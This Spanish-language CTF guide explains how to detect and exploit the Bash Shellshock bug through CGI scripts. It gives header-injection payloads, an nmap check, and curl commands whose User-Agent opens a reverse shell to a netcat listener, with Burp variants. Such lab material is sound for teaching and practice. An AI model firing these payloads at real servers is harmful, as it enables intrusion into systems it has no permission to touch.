 
# 🐚 Shellshock - Detección y Explotación en CTF

## Índice
- [¿Cómo detectar un posible Shellshock?](#detectar)
- [¿En qué consiste?](#consiste)
- [Reconocer pistas en HTTP](#reconocer)
- [Ejemplo de payload para probar](#ejemplopayload)
- [¿Cómo se inyectan?](#inyectan)
- [¿Qué hace el payload?](#payload)
- [¿Qué necesitas?](#necesitas)
- [Ejemplo real](#ejemplo)
- [Notas adicionales](#notas)


---
<a name="detectar"></a>
## 🕵️‍♂️ ¿Cómo detectar un posible Shellshock?

Después de enumerar una máquina, si encontramos un servicio HTTP y realizamos un fuzzing, podemos descubrir una ruta como:

    /cgi-bin

Esto nos da pie para probar este tipo de ataque, ya que los scripts CGI suelen interactuar con Bash.

---
<a name="consiste"></a>
## 🛠️ ¿En qué consiste?

Shellshock permite que un atacante ejecute código arbitrario en el sistema, aprovechando cómo Bash procesa ciertas variables de entorno.

👉 El problema es que Bash permitía definir funciones en variables de entorno, pero continuaba interpretando código tras la función, permitiendo ejecución arbitraria.

Ejemplo:

    env X='() { :;}; echo Vulnerable' bash -c "echo Test"

Si el sistema es vulnerable, mostrará:

    Vulnerable
    Test

👉 Se ejecutó el `echo Vulnerable` fuera de la función.

---
<a name="reconocer"></a>
## 🔍 Reconocer pistas en HTTP

Si encuentras una URL sospechosa (por ejemplo `/cgi-bin/test.cgi`), puedes probar inyecciones en las siguientes cabeceras HTTP:

- User-Agent
- Referer
- Cookie

👉 Estas cabeceras a veces se pasan como variables de entorno a los scripts CGI.

---
<a name="ejemplopayload"></a>
## 🧪 Ejemplo de payload para probar

    () { :; }; echo; echo; /bin/bash -c "echo VULNERABLE"

O con cabecera:

    User-Agent: () { :; }; echo; echo; /bin/bash -c "id"

### Usar Nmap para automatizar:

    nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi -p 80 <IP>

---
<a name="inyectan"></a>
## 🚀 ¿Cómo se inyectan?

Como hemos dicho, normalmente en la cabecera User-Agent, pero también puede funcionar en Referer o Cookie.

### Ejemplo de inyección con curl:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO EN ESCUCHA> 0>&1" \
      "https://172.17.0.2:<PUERTO SI SE NECESITA>/cgi-bin/<RECURSO>.cgi"

### Desglose del comando:

| Parte del comando                                   | Significado                                                       |
|----------------------------------------------------|-------------------------------------------------------------------|
| curl                                               | Cliente para hacer peticiones HTTP                                |
| --silent                                           | No muestra progreso ni información extra                          |
| -k                                                 | Permite conexiones HTTPS sin verificar certificado (útil en CTFs) |
| -H                                                 | Añade una cabecera HTTP personalizada                             |
| User-Agent: ...                                    | Cabecera que contiene el payload de Shellshock                    |
| () { :; };                                         | Inicia la función vacía y luego el código malicioso               |
| /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1  | Intenta abrir una reverse shell hacia tu máquina                  |
| URL final                                          | El recurso vulnerable (normalmente en /cgi-bin/)                  |

---
<a name="payload"></a>
## 🎯 ¿Qué hace el payload?

Está enviando un User-Agent que explota Shellshock.

Si el servidor es vulnerable, ejecutará:

    /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1

👉 Esto crea una reverse shell (una conexión interactiva de Bash de vuelta a tu máquina).

---
<a name="necesitas"></a>
## 🚦 ¿Qué necesitas?

### 1️⃣ Tener un listener en tu máquina:

    nc -lvnp <TU PUERTO EN ESCUCHA>

### 2️⃣ Reemplazar en el curl:

- <TU IP> → tu IP (por ejemplo: 10.10.14.23 si usas HackTheBox)
- <TU PUERTO> → puerto en el que tienes nc escuchando (por ejemplo 4444)
- <PUERTO SI SE NECESITA> → si el server usa un puerto especial (443, 8443, etc.)
- <RECURSO> → el CGI vulnerable (por ejemplo: test.cgi)

---
<a name="ejemplo"></a>
## 🧑‍💻 Ejemplo real

### En escucha en tu máquina:

    nc -lvnp 4444

### Payload:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" \
      "https://172.17.0.2/cgi-bin/test.cgi"

👉 Si todo sale bien, recibirás una shell interactiva en tu Netcat. 🚀

---
<a name="notas"></a>
## 📝 Notas adicionales

✅ El ataque también puede realizarse desde Burp Suite, con una cabecera como:

    User-Agent: () { ignored;}; /bin/bash -i >& /dev/tcp/<IP>/<PUERTO> 0>&1

✅ No es necesario probar directamente con reverse shell; puedes empezar con comandos simples como:

    User-Agent: () { ignored;}; /bin/bash -c "id"

Si ves una salida como:

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

→ ¡El servidor es vulnerable!

---


